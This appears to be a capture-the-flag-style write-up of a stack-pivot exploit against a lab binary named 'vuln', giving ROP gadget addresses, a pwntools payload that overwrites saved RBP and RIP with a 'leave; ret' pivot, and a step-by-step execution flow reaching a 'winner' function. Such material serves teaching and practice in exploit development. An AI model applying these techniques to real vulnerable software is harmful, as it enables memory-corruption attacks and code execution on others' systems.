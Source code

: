 # Stack Pivot `leave`

---

## 1. Vulnerability Background

The binary `vuln` is a 64-bit ELF with a stack buffer overflow.
It leaks the stack buffer’s address (`to: 0x7ff…`) and then reads input unsafely.

Goal: Call the hidden function `winner(int arg1, int arg2)` with controlled arguments.

Key details:

* NX is enabled (we cannot run shellcode).
* Buffer offset to **saved RBP** = 96 bytes.
* Buffer offset to **saved RIP** = 104 bytes.

---

## 2. Available Gadgets

Using `ROPgadget` or pwntools `ROP` we find:

* **Stack pivot gadget**

  ```
  0x40117c : leave ; ret
  ```

  (shorthand for `mov rsp, rbp ; pop rbp ; ret`).

* **Argument control gadgets**

  ```
  0x40122b : pop rdi ; ret              # controls arg1
  0x401229 : pop rsi ; pop r15 ; ret    # controls arg2
  ```

---

## 3. Strategy

Instead of a normal ROP chain at the return address, we use **stack pivoting**:

1. Leak the buffer address.
2. Place a fake stack frame inside the buffer containing our ROP chain:

   * dummy `rbp`
   * `pop rdi ; ret` → set `rdi = 0xdeadbeef`
   * `pop rsi ; pop r15 ; ret` → set `rsi = 0xdeadc0de`
   * jump into `winner`
3. Overwrite saved RBP with the buffer’s address.
4. Overwrite saved RIP with `leave; ret`.
5. On function epilogue, execution pivots into our fake stack and runs the chain.

---

## 4. Payload Layout

### Fake ROP Chain (inside buffer)

```python
payload = flat(
    0x0,               # fake rbp (used by pop rbp inside leave)
    POP_RDI,           # next RIP after leave
    0xdeadbeef,        # arg1
    POP_RSI_R15,       # next RIP
    0xdeadc0de,        # arg2
    0x0,               # r15 filler
    elf.sym['winner']  # call winner(rdi, rsi)
)
```

### Padding to reach saved RBP

```python
payload = payload.ljust(96, b'A')
```

### Overwrite saved RBP and RIP

```python
payload += flat(
    buffer,       # new RBP → points into our fake chain
    LEAVE_RET     # new RIP → executes leave; ret
)
```

---

## 5. Execution Flow

1. Function returns → executes `leave; ret`.

   * `mov rsp, rbp` → `rsp = buffer`
   * `pop rbp` → loads fake rbp (0) from buffer
   * `ret` → pops next qword → `rip = POP_RDI`

2. Execution continues at buffer+0x08:

   * `pop rdi ; ret` → sets `rdi = 0xdeadbeef`, `rip = POP_RSI_R15`

3. Next gadget:

   * `pop rsi ; pop r15 ; ret` → sets `rsi = 0xdeadc0de`, discards dummy r15, `rip = winner`

4. Control flow reaches `winner(0xdeadbeef, 0xdeadc0de)` successfully. 🎉


---


![result](./img/result.png)


